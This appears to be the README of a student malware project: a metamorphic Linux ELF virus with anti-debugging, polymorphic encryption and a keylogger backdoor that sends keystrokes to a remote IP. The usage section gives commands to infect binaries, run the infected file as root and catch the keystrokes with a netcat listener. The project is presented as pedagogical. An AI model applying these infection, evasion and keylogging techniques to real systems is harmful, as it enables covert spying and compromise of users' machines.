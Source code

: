 # Death

[@arobion][arobion]
Sommaire:
```
  I	- Usage
  II	- Description
  III	- Fonctionement
        - Infection
          - Entry-Point Obscuring (EPO) technique
          - Insertion
        - Obfuscation
          - Anti debug
            - Anti breackpoint
            - Anti ptrace
            - Anti step by step
            - Section header obfuscation
            - Verification si un anti-virus
            - Close EPO
          - Polymorphisme
          - Metamorphisme
        - Backdoor
```
> ATTENTION : Ce projet est uniquement à **but pedagogique**.

## I - Usage

```shell
$> make
$> ./create.sh #crée le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin
$> ./death #infecte les deux dossiers
$> ./check.sh	#verifie si il y a des binaires infecté dans /tmp/test1 et /tmp/test2
$> ./infect.sh	#copie /tmp/test1/ls -> ./infected, recree le dossier /tmp/test1 et /tmp/test2, copie les binaires ls, python, bash de /bin et les infectes à partir de ./infected

#pour l'utilisation de la backdoor:
#modifier l'adresse IP dans ./src_s/anti_data.s
#être en root et lancer ./infected
$> sudo ./infected
#sur le poste qui a cette adresse IP lancer la commande
$> nc -l 5678 > keylogger.txt
#pour traduire les touches
$> python3 translate.py keylogger.txt
```

## II - Description

Ce projet est un virus metamorphique, qui est l'aboutissement de plusieurs projets:
- **WOODY-WOOPACKER**: Projet consistant à realiser un packer de elf64
- **FAMINE**: Projet consistant à crée un virus basique qui à pour but de simplement laisser une trace dans certains fichiers contenu dans un dossier spécifique
- **PESTILENCE**: Projet consistant à crée un virus obfusqué
- **WAR**: Projet consistant à crée un virus polymorphique

## III - Fonctionement

### Infection:
  - **Entry-Point Obscuring (EPO) technique**:
  
    Cette technique d'infection consiste à ouvrir plusieurs portes dans le binaire infecté, en remplacant dans celui-ci les appels de certaines fonctions par un jump sur notre virus et d'y revenir ensuite à la fin de l'execution de notre virus.
    Pour ce faire nous avons decidé d'infecter un binaire si il a plus de 50 ```call``` valides. C'est a dire une fonction commencant par le prolog ou alors si elle fait partie de la ```GOT```.
  - **Insertion**:
  
    Nous placons une partie de notre virus dans le padding de la section ```.text``` et le reste apres le ```.bss```.

### Obfuscation:

  #### Anti-debug:
  - **Anti breakpoint**:
      
      Lors du lancement de la routine d'infection, nous allons effectuer un ```hash``` de la partie de notre code qui permet le dechiffrement du ```payload```, puis nous allons utiliser ce ```hash``` en tant que clé de déchiffrement du ```payload```, qui, à la fin du déchiffrement aura une certaine valeure à laquelle nous ajoutons une autre valeure ( determinée lors de l'infection) qui correspond a l'adresse du debut du ```payload```.
      
      Ainsi, l'insertion d'un breakpoint corromp le ```hash``` ce qui entraine une mauvaise clé de déchiffremment ainsi qu'une mauvaise adresse du ```payload```.
  
  - **Anti ptrace**:
      
      Au lancement de la routine d'infection sur un binaire infecte, nous créons un enfant avec la commande ```fork```.
      
      Dans cet enfant nous essayons d'attacher le parent avec commande ```ptrace```, si l'attachement ne fonctionne pas nous arretons la routine d'infection.
      
      Si l'attachement fonctionne, nous allons dans l'enfant faire excuter la partie hash du père et récupérer cette valeur.
      
      Ensuite dans l'enfant nous allons executer la partie déchiffrement, et nous allons faire ```jump``` le parent à l'adresse obtenue.
  
  - **Anti step-by-step**:
      
      Vérification du Time-Stamp Counter grâce à l'insctrution ```rdtsc```.
      
      Vérification du ```RFLAGS``` ```TF``` grâce à l'insctruction ```pushfq```.
      
  - **Section header obfuscation**:
  
      Nous corrompons la section header pour ne plus avoir d'informations sur le binaire infecté.
      
  - **Verification de certains processus**:
  
      Nous recherchons si il y a un process avec le nom ```inhibitor```, si il est actif nous ne lancons pas notre virus.
      
  - **Close EPO**:
      
      Après le premier passage dans notre virus nous refermons les ```EPO``` pour ne plus repasser dans notre virus jusqu'à la fin de l'exécution du programme.
  
  #### Polymorphisme:
  Notre polymorphisme est basé sur un ```fingerprint``` unique, généré lors de l'infection du fichier.
  Ce fingerprint est obtenu grace à un système de couplage ```index-fingerprint```, qui permet d'assurer un contrôle algorithmique de la génération du ```fingerprint```
  Grâce a ce fingerprint, nous obtenons des clés unique, nous permettant d'effectuer un chiffrement du ```payload``` different a chaque infection.
  Chaque fonction du ```Payload``` est chiffrée grace a une clé unique issue d'un assemblage du fingerprint et du hash de cette fonction. 
  Lors de l'execution du ```Payload```, chaque fonction est ainsi déchiffrée avant son execution, puis rechiffrée des la fin de son execution, ce qui permet d'assurer une bonne protection contre l'analye dynamique.
  #### Metamorphisme:
  
   Nous avons dispatché dans la partie du virus non polymorphique des ```placeholder```.
   Nous les remplacons par différentes instructions, en fonction d'un motif généré à partir du ```fingerprint```.
    
| Exemples d'instructions | | | | | | 
| ------ | ------ | ------ | ------ | ------ | ------ |
| push rax  | nop | inc rax | dec rax | nop | push rax |
| nop | push rax | dec rax | inc rax | nop | pop rax |
| nop | pop rax | . | . | push rax | nop |
| pop rax | nop | . | . | pop rax | nop |

### Backdoor:
  La backdoor est un keylogger qui envoie les touches sur une adresse IP renseignée dans ```./srcs_s/anti_data.s``` sur le port ```5678```.




[arobion]: <https://github.com/arobion>
